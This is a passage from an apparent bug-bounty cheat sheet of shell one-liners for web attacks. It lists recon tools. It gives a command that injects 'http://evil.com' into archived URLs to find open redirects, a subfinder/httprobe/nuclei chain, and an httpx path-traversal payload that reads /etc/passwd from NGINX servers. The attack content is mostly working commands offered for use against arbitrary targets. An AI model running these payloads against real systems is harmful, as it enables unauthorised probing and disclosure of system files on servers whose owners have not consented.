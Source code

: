 ## Installation Requirements
1. Waybackurls : https://github.com/tomnomnom/waybackurls
2. Bhedak      : https://github.com/R0X4R/bhedak
3. GAU         : https://github.com/lc/gau
4. GF          : https://github.com/tomnomnom/gf
5. QS-Replace  : https://github.com/tomnomnom/qsreplace
6. HTTPX       : https://github.com/projectdiscovery/httpx
7. Subfinder   : https://github.com/projectdiscovery/subfinder
8. Httprobe    : https://github.com/tomnomnom/httprobe
9. Nuclei      : https://github.com/projectdiscovery/nuclei

## OneLiner

```
waybackurls TARGET.COM | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L $host -I| grep "evil.com" && echo "$host \033[0;31mVulnerable\n" ;done
```

```
subfinder -dL domains.txt | httprobe |tee live_domain.txt; cat live_domain.txt | waybackurls | tee wayback.txt; cat wayback.txt | sort -u | grep "\?" > open.txt; nuclei -t Url-Redirection-Catcher.yaml -l open.txt
```

────────────────────────────────────────────────────────────────────────



# NGINX Path Traversal

## Installation Requirements
1. HTTPX : https://github.com/projectdiscovery/httpx


## OneLiner
```
httpx -l url.txt -path "///////../../../../../../etc/passwd" -status-code -mc 200 -ms 'root:'
```

────────────────────────────────────────────────────────────────────────



# Subdomain Takeover

## Installation Requirements
1. Subfinder    : https://github.com/projectdiscovery/subfinder 
2. Assetfinder  : https://github.com/tomnomnom/assetfinder
3. Amass        : https://github.com/OWASP/Amass
4. Subjack      : https://github.com/haccer/subjack
